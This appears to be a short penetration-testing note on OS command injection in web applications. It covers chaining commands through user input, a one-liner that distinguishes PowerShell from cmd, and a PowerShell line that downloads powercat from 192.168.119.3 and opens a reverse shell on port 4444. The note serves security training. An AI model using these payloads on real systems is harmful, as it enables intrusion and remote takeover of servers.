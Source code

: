 
Web applications may need to interface and leverage OS functions/commands to support functions like file uploads etc. Generally there should be a special interface/API to handle this but it can be time consuming. So some user input may make it through to the operating system to be executed which can be used to change the way the Web Application behaves.

1. Identify user input that may make use of a command to process on the remote target
2. intercept the request with burpsuite to inspect anything of interest
3. if user input is found that may be used as part of a command we can play with the input the see if we can execute unintended commands
	1. chain commands with - e.g. `git version; ipconfig`, `git version && ipconfig`, `git version & ipconfig`
4. utilize successful execution to gain a shell on the target


determine if command line is PowerShell or cmd:

````
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
````

download files from remote server with PowerShell:

````
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
````

